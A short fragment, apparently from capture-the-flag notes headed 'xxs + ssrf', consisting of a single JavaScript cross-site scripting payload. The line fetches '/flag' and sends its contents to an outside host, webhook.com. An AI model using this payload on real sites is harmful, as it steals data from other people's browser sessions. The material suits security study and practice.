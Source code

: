 ### xxs + ssrf

```javascript
fetch('/flag').then((r)=>r.text()).then((t)=>fetch(`https://webhook.com?c=${encodeURIComponent(t)}`));
```
